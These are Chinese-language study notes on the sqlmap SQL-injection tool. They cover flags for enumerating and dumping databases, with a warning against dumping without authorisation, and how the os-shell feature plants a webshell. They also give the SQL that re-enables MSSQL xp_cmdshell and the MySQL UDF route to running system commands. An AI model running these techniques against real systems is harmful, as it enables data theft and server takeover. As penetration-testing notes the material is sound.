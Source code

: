 #### 测试单目标(GET型)
- 例: `python sqlmap.py -u http://127.0.0.1/sqli-labs-master/Less-1/?id=1&page=10 -p page -batch`
- -u: 指定URL
- -p: 指定注入点
- -batch自动化测试, 需要选择全部默认Y (时间较长)
- --dbs: 获取数据库名
- -D: 指定数据库名
- --tables: 获取数据库表名
- -T: 指定表名
- --columns: 获取字段名
- -C: 指定字段名
- --dump: 获取数据(拖库), ***!!!无授权情况下禁止使用!!!***

#### 测试多目标(GET型)
- -m: 指定目标文件, 测试文件内容中的所有目标

#### 测试POST型注入
- -r: 指定要测试的数据包(txt文件), 里面有post请求包

### SQLMAP --os-shell原理
- 拥有网站的写入权限, 且`Secure_file_priv`参数位空或者为指定路径
1. 目标基础信息探测
2. 上传shell到目标网站, 通过into outfile文件写入上传一个上传功能的马, 通过这个上传马上传webshell
3. 退出时执行命令删除webshell

指定查询 `-technique`
- 联合查询 `U`
- 布尔盲注 `B`
- 报错注入 `E`
- 时间盲注 `T`
- 堆叠查询 `S`

#### MS SQL Server
使用`xp_cmdshell`扩展存储过程(如果被禁用(2005以上默认禁用), SQLMAP会创建并启用), 且在数据库支持外连且权限为SA时
`--sql-shell`手动启用`xp_cmdshell`
```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```
是否为SA: `select IS_SRVROLEMEMBER('sysadmin')`
是否存在`xp_cmdshell`扩展进程: `select count(*) from master.dbo.sysobjects where xtype='x' and name='xp_cmdshell'`

#### MySQL
SQLMAP上传一个二进制库, 包含自定义函数`sys_exec()`和`sys_eval()`, 执行系统命令, 针对**mysql版本大于5.1**且存在`/lib/plugin`目录